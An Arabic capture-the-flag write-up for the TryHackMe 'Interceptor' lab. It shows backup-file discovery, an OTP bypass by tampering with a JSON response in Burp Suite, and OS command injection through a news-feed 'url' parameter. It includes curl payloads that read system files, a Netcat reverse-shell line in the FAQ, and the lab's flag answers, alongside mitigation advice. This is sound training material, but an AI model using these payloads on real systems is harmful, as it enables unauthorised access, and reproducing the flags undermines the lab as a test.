

# توثيق غرفة: المعترض (Interceptor)

---

## 1. الترويسة الموحدة ومعلومات الغرفة (Metadata Header)
- **اسم الغرفة (Room Title):** Interceptor (المعترض)
- **المسار التعليمي (Path):** Jr Penetration Tester (مخترق التطبيقات والمواقع المبتدئ)
- **الموديول (Module):** Module 18: Jr Pentester Challenges (تحديات المبتدئ العملية)
- **الترتيب داخل الموديول:** Room 07 of 08
- **مستوى الصعوبة (Difficulty):** Medium (متوسط)
- **نوع الغرفة (Type):** CTF Challenge / Web Exploitation
- **رابط الغرفة الرسمي:** [https://tryhackme.com/room/interceptor](https://tryhackme.com/room/interceptor)
- **حالة الإنجاز للمستخدم:** مكتمل بنسبة 100% (Verified 100% Complete)

---

## 2. الملخص التنفيذي وسياق السيناريو (Executive Summary & Scenario Context)
بوابة **MediaHub** هي بوابة داخلية متخصصة يستخدمها الصحفيون ومحررو الأخبار لإدارة المحتوى الإخباري ومتابعة المصادر. ظاهرياً، تبدو البوابة محصنة خلف واجهة تسجيل دخول متعددة المراحل تعتمد على فحص كود تحقق سري (OTP/Verification Step). ومع ذلك، فإن الفحص الأمني المعمق لحركة البيانات المتبادلة بين المتصفح والخادم كشف عن وجود خلل منطقي جسيم (Business Logic Flaw)؛ حيث يعتمد تطبيق الواجهة الأمامية بالكامل على ردود الـ JSON المرتجعة من واجهة الـ API. عبر استخدام أداة اعتراض حركة المرور **Burp Suite** لتعديل استجابة الخادم (Response Manipulation)، تمكنا من تجاوز فحص التحقق بالكامل وتسجيل الدخول كمسؤول للنظام وحصد العلم الأول `THM{ADMIN_ACCESS_USING_BURP}`. لاحقاً، وباستغلال أداة استيراد المصادر داخل لوحة التحكم، تم تنفيذ هجوم حقن أوامر نظام التشغيل (OS Command Injection) وقراءة ملف النظام الحساس `/var/www/user.txt` لنيل العلم الثاني `THM{SYSTEM_PWNED_SUCCESSFULLY}` وإثبات السيطرة الكاملة على السيرفر.

---

## 3. الأهداف التعليمية والمفاهيم النظرية (Learning Objectives & Theoretical Concepts)
1. **استخدام وسيط الويب التفاعلي (Web Proxy Interception):** إتقان اعتراض وفحص وتعديل حزم الـ HTTP/HTTPS الصادرة والواردة باستخدام Burp Suite.
2. **اكتشاف تسريب ملفات النسخ الاحتياطية (Source Code Disclosure):** البحث عن ملفات الشيفرة المصدرية المنسية (مثل `.bak` و `.old`) وتحليل منطق المصادقة.
3. **التلاعب بالاستجابة وتجاوز المنطق (Response Manipulation & Logic Bypass):** فهم خطورة الاعتماد على العميل (Client-Side Trust) وكيف يمكن لتعديل قيم الـ JSON في الرد تجاوز بوابات الـ 2FA أو كشف الواجهات الإدارية.
4. **حقن أوامر نظام التشغيل (OS Command Injection):** استغلال معالجة المدخلات غير الآمنة في الوظائف الإدارية التي تستدعي أدوات نظام مثل `curl` للوصول إلى نظام الملفات.

---

## 4. البنية التقنية ومخطط بيئة التحدي (Technical Architecture & Lab Diagram)



---

## 5. مصفوفة الثغرات والتصنيفات القياسية (Vulnerability Matrix & CWE Mappings)

| الثغرة الأمنية | المكون المتأثر | التصنيف القياسي (CWE) | تصنيف ميتري (MITRE ATT&CK) | مستوى الخطورة (Severity) |
|----------------|----------------|-----------------------|----------------------------|--------------------------|
| Backup File Source Disclosure | `/login.php.bak` | CWE-530: Exposure of Backup File | T1552.001: Credentials in Files | Medium (متوسط) |
| Authentication Bypass via Response Tampering | `/verify.php` API | CWE-602: Client-Side Security Enforcement | T1556: Modify Authentication Process | Critical (حرج) |
| OS Command Injection | Admin Feed Fetcher (`fetch.php`) | CWE-78: OS Command Injection | T1059.004: Unix Shell | High (عالٍ) |

---

## 6. مرحلة الاستطلاع واكتشاف الشيفرة المصدرية (Reconnaissance & Source Leak)
تم فحص الخدمات النشطة وتخمين المسارات الحساسة:
```bash
nmap -sC -sV -p- -T4 $TARGET_IP
ffuf -u http://$TARGET_IP/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.php.bak,.bak,.txt
```
أظهر الفحص وجود الملف المنسي `/login.php.bak`. بقراءة محتواه، اتضح أن التحقق يعتمد على استجابة JSON ترجع حقلاً يحمل حالة النجاح `status`، وأن الواجهة الأمامية بالمتصفح تمنح الجلسة الإدارية بمجرد أن تكون القيمة مساوية لـ `true`.

---

## 7. مرحلة استغلال اعتراض الاستجابة وتسجيل الدخول كمسؤول (Burp Response Manipulation)
1. تشغيل متصفح Burp Suite المدمج والتوجه لصفحة الدخول.
2. تفعيل خاصية اعتراض الردود: `Proxy -> Options -> Intercept Server Responses`.
3. إرسال بيانات الدخول المبدئية، وعند وصول استجابة الخادم:
   ```json
   {"status": false, "message": "Verification failed"}
   ```
4. تعديل الاستجابة مباشرة داخل Burp Suite إلى:
   ```json
   {"status": true, "message": "Success", "role": "admin"}
   ```
5. تمرير الرد (Forward)، فيقوم المتصفح فوراً بالانتقال إلى لوحة التحكم الإدارية، حيث يُعرض العلم الأول:
   ```text
   THM{ADMIN_ACCESS_USING_BURP}
   ```

---

## 8. مرحلة حقن أوامر نظام التشغيل وقراءة علم النظام (OS Command Injection)
داخل لوحة التحكم الإدارية توجد وظيفة لجلب خلاصات الأخبار عبر روابط URL.
1. تم فحص الطلب المرسل في Burp Repeater وتبين أنه يرسل المعلمة `url`.
2. الخادم يقوم بتمرير الرابط إلى أمر `curl` عبر مفسر الأوامر `shell_exec`.
3. تم حقن أمر قراءة علم النظام عبر إنهاء الأمر بفاصلة منقوطة `;`:
   ```text
   url=http://127.0.0.1; cat /var/www/user.txt
   ```
4. أعاد الخادم ناتج تنفيذ الأمر وعرض العلم:
   ```text
   THM{SYSTEM_PWNED_SUCCESSFULLY}
   ```

---

## 9. مصفوفة الأسئلة والأجوبة المعتمدة (Questions & Live Submissions)

| السؤال | الإجابة المعتمدة |
|--------|------------------|
| What is the flag value after logging in as admin? | `THM{ADMIN_ACCESS_USING_BURP}` |
| What is the value of /var/www/user.txt? | `THM{SYSTEM_PWNED_SUCCESSFULLY}` |

---

## 10. الدليل الإرشادي للأوامر وأدوات الهجوم (Command Cheat Sheet)

```bash
# 1. فحص المنافذ
nmap -sC -sV -p 22,80 <TARGET_IP>

# 2. اكتشاف ملفات النسخ الاحتياطية
ffuf -u http://<TARGET_IP>/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php.bak

# 3. إعداد Burp Proxy للاعتراض التلقائي للاستجابات
# Options -> Intercept Server Responses -> Check "Intercept responses based on the following rules"

# 4. إرسال حمولة حقن الأوامر عبر curl
curl -s -X POST http://<TARGET_IP>/fetch.php \
  -H "Cookie: PHPSESSID=<ADMIN_SESSION>" \
  -d "url=http://127.0.0.1;cat /var/www/user.txt"
```

---

## 11. إجراءات المعالجة والتحصين الدفاعي (Mitigation & Hardening Strategies)
1. **التحقق الصارم من جانب الخادم (Server-Side Authorization):**
   - عدم الاعتماد إطلاقاً على قيم JSON أو منطق المتصفح في اتخاذ قرارات الأمان وتفويض الصلاحيات.
   - استخدام جلسات مشفرة وتوقيع رقمي موثق (مثل JWT موقع بمفتاح سري قوي) للتحقق من هوية وصلاحية المستخدم في كل طلب وارد.
2. **منع تسريب النسخ الاحتياطية للملفات البرمجية:**
   - ضبط خادم الويب (Apache/Nginx) لمنع الوصول إلى أي ملفات تحمل امتدادات مثل `.bak` أو `.old` أو `.git`.
   - إزالة أي ملفات مؤقتة فور الانتهاء من الصيانة وتطبيق مبدأ النشر النظيف (Clean Deployment Pipeline).
3. **منع حقن أوامر نظام التشغيل:**
   - تجنب استدعاء دوال الشل (`system`, `shell_exec`) نهائياً.
   - استخدام واجهات ومكتبات برمجية أصلية مثل PHP cURL مع تقييد البروتوكولات بـ HTTP/HTTPS فقط.

---

## 12. الأسئلة الشائعة وتصحيح الأخطاء (Troubleshooting & FAQs)
- **سؤال: قمت بتعديل الاستجابة في Burp ولكن المتصفح لم يوجهني لصفحة الإدارة، ما السبب؟**
  - **الجواب:** تأكد من أنك قمت بتعديل كل من رمز الحالة HTTP Status إلى `200 OK` وجسم الرد JSON، وتأكد من عدم وجود كوكي متبقية من جلسة سابقة غير مسجلة عبر مسح الـ Cookies أو استخدام المتصفح في الوضع المتخفي.
- **سؤال: عند حقن أمر `cat` لا يظهر الناتج في الصفحة، كيف أتأكد؟**
  - **الجواب:** جرّب تشغيل اتصال عكسي (Reverse Shell) عبر Netcat مثل `nc -e /bin/bash <IP> <PORT>` أو استخدام استبدال الأوامر `$()` للتأكد من طريقة معالجة التطبيق للمخرجات.

---

## 13. المراجع ومصادر التعلم الإضافية (References & Further Reading)
- [TryHackMe Room: Interceptor](https://tryhackme.com/room/interceptor)
- [PortSwigger: Testing for Business Logic Flaws](https://portswigger.net/web-security/logic-flaws)
- [OWASP Top 10: Injection & Broken Access Control](https://owasp.org/Top10/)
- [مستند المهام والحل التفصيلي (TASK-01.md)](file:///e:/THM-JR-PENETRATION-TESTER/18-JR-PENTESTER-CHALLENGES/07-INTERCEPTOR/TASKS/TASK-01.md)
